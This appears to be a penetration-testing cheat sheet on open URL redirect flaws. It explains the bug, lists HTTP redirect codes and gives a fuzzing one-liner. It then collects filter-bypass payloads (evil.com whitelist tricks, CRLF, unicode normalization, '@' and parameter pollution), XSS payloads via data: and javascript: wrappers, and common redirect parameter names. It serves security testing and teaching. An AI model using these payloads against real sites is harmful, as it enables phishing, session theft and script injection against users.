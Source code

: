 # Open URL Redirection

> Un-validated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Un-validated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Summary

* [Labs](#labs)
* [Exploitation](#exploitation)
    * [HTTP Redirection Status Code](#http-redirection-status-code)
    * [Fuzzing](#fuzzing)
    * [Filter Bypass](#filter-bypass)
    * [Common injection parameters](#common-injection-parameters)
* [References](#references)


## Labs

* [Root Me - HTTP - Open redirect](https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect)
* [PortSwigger - DOM-based open redirection](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)


## Exploitation

An open redirect vulnerability occurs when a web application or server uses unvalidated, user-supplied input to redirect users to other sites. This can allow an attacker to craft a link to the vulnerable site which redirects to a malicious site of their choosing.

Attackers can leverage this vulnerability in phishing campaigns, session theft, or forcing a user to perform an action without their consent.

Consider this example:
Your web application has a feature that allows users to click on a link and be automatically redirected to a saved preferred homepage. This might be implemented like so:

```ps1
https://example.com/redirect?url=https://userpreferredsite.com
```

An attacker could exploit an open redirect here by replacing the `userpreferredsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.


## HTTP Redirection Status Code

HTTP Redirection status codes, those starting with 3, indicate that the client must take additional action to complete the request. Here are some of the most common ones:

- [300 Multiple Choices](https://httpstatuses.com/300) - This indicates that the request has more than one possible response. The client should choose one of them.
- [301 Moved Permanently](https://httpstatuses.com/301) - This means that the resource requested has been permanently moved to the URL given by the Location headers. All future requests should use the new URI.
- [302 Found](https://httpstatuses.com/302) - This response code means that the resource requested has been temporarily moved to the URL given by the Location headers. Unlike 301, it does not mean that the resource has been permanently moved, just that it is temporarily located somewhere else.
- [303 See Other](https://httpstatuses.com/303) - The server sends this response to direct the client to get the requested resource at another URI with a GET request.
- [304 Not Modified](https://httpstatuses.com/304) - This is used for caching purposes. It tells the client that the response has not been modified, so the client can continue to use the same cached version of the response.
- [305 Use Proxy](https://httpstatuses.com/305) -  The requested resource must be accessed through a proxy provided in the Location header. 
- [307 Temporary Redirect](https://httpstatuses.com/307) - This means that the resource requested has been temporarily moved to the URL given by the Location headers, and future requests should still use the original URI.
- [308 Permanent Redirect](https://httpstatuses.com/308) - This means the resource has been permanently moved to the URL given by the Location headers, and future requests should use the new URI. It is similar to 301 but does not allow the HTTP method to change.


## Fuzzing

Replace `www.whitelisteddomain.tld` from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the `WHITELISTEDDOMAIN` with value `www.test.com `to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```


## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" & "////" to bypass "http" blacklisted keyword

```powershell
//google.com
////google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Using "`?`" character, browser will translate it to "`/?`"

```powershell
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```


Host/Split Unicode Normalization

```powershell
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```


## References

- [Host/Split Exploitable Antipatterns in Unicode Normalization - Jonathan Birch - August 3, 2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
- [Open Redirect Cheat Sheet - PentesterLand - November 2, 2018](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
- [Open Redirect Vulnerability - s0cket7 - August 15, 2018](https://s0cket7.com/open-redirect-vulnerability/)
- [Open-Redirect-Payloads - Predrag Cujanović - April 24, 2017](https://github.com/cujanovic/Open-Redirect-Payloads)
- [Unvalidated Redirects and Forwards Cheat Sheet - OWASP - February 28, 2024](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
- [You do not need to run 80 reconnaissance tools to get access to user accounts - Stefano Vettorazzi (@stefanocoding) - May 16, 2019](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)